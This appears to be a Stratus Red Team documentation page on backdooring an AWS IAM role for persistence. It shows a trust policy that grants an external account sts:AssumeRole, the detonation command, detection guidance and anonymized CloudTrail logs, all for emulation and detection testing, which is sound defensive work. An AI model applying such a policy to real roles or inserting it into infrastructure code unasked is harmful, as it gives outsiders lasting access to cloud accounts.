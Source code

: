 ```yaml
---
title: Backdoor an IAM Role
---
```


# Backdoor an IAM Role


 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: AWS

## MITRE ATT&CK Tactics


- Persistence

## Description


Establishes persistence by backdooring an existing IAM role, allowing it to be assumed from an external AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: 

- Create an IAM role.

<span style="font-variant: small-caps;">Detonation</span>: 

- Update the assume role policy of the IAM role to backdoor it, making it accessible from an external, fictitious AWS account:

<pre>
<code>
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com"
      },
      "Action": "sts:AssumeRole"
    },
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
</code>
</pre>


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.persistence.iam-backdoor-role
```
## Detection


- Using CloudTrail's <code>UpdateAssumeRolePolicy</code> event.

- Through [IAM Access Analyzer](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-iam-role), 
which generates a finding when a role can be assumed from a new AWS account or publicly.



## Detonation logs <span class="smallcaps w3-badge w3-light-green w3-round w3-text-sand">new!</span>

The following CloudTrail events are generated when this technique is detonated[^1]:


- `iam:UpdateAssumeRolePolicy`


??? "View raw detonation logs"

    ```json hl_lines="6"

    [
	   {
	      "awsRegion": "ca-isob-northsouth-1r",
	      "eventCategory": "Management",
	      "eventID": "62e290e2-ee95-4a7c-a9f8-db4ef462b12d",
	      "eventName": "UpdateAssumeRolePolicy",
	      "eventSource": "iam.amazonaws.com",
	      "eventTime": "2024-08-01T13:29:57Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.09",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "751203476945",
	      "requestID": "295ee6e3-1da9-416f-885d-ad65d876ef82",
	      "requestParameters": {
	         "policyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"Service\": \"ec2.amazonaws.com\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    },\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}",
	         "roleName": "stratus-red-team-backdoor-r-role"
	      },
	      "responseElements": null,
	      "sourceIPAddress": "225.178.039.250",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "iam.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_180e078f-4ad3-40c5-9ec3-efff37e17b25",
	      "userIdentity": {
	         "accessKeyId": "AKIAMUV7B57OZM0RV05D",
	         "accountId": "751203476945",
	         "arn": "arn:aws:iam::751203476945:user/christophe",
	         "principalId": "AIDA7SLGLLJ9LWK18E4Y",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   }
	]
    ```

[^1]: These logs have been gathered from a real detonation of this technique in a test environment using [Grimoire](https://github.com/DataDog/grimoire), and anonymized using [LogLicker](https://github.com/Permiso-io-tools/LogLicker).

